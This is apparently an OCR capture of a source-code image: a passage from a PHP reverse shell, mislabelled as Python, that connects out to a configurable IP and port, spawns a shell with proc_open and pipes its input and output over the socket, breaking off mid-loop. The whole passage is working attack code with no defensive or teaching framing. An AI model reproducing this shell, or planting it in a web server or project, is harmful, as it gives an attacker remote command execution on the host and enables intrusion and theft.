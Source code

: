 ```python
// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
```